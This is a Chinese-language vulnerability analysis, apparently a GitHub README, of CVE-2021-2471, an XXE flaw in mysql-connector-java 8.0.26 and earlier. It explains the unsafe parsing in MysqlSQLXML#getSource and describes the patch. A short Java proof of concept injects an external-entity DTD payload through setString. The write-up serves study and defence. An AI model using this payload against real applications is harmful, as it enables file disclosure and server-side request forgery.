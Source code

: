 - [CVE-2021-2471 XXE漏洞](#cve-2021-2471-xxe漏洞)
  - [影响版本](#影响版本)
  - [环境搭建](#环境搭建)
  - [原理分析](#原理分析)
    - [MysqlSQLXML#getSource](#mysqlsqlxmlgetsource)
  - [复现](#复现)
  - [补丁](#补丁)
# CVE-2021-2471 XXE漏洞
## 影响版本
Version <=8.0.26
## 环境搭建
```xml
    <dependency>
        <groupId>mysql</groupId>
        <artifactId>mysql-connector-java</artifactId>
        <version>8.0.26</version>
    </dependency>
```
## 原理分析
### MysqlSQLXML#getSource
在`MysqlSQLXML#getSource`中,根据传入的类型为DOMSource时,会`return new DOMSource(builder.parse(inputSource))`,对inputSource进行解析,在builder的创建过程中没有任何安全过滤和限制。  
而inputSource的值当`this.fromResultSet`为空(即不是从数据库返回结果得到)时为`this.stringRep`。
![](1.png)
而`this.stringRep`的值是从setString中设置,而这是一个public方法,如果方法参数可控则会产生XXE。
![](2.png)
## 复现
```java
    public static void main(String[] args) throws SQLException {


        MysqlSQLXML myXML = new MysqlSQLXML(null);
        myXML.setString("<!DOCTYPE foo [<!ENTITY % xxe SYSTEM \"http://127.0.0.1:8080/test.dtd\"> %xxe;]>");
        myXML.getSource(DOMSource.class);
    }
```
![](3.png)
## 补丁
添加了setFeature来限制各种实体解析。
![](4.png)
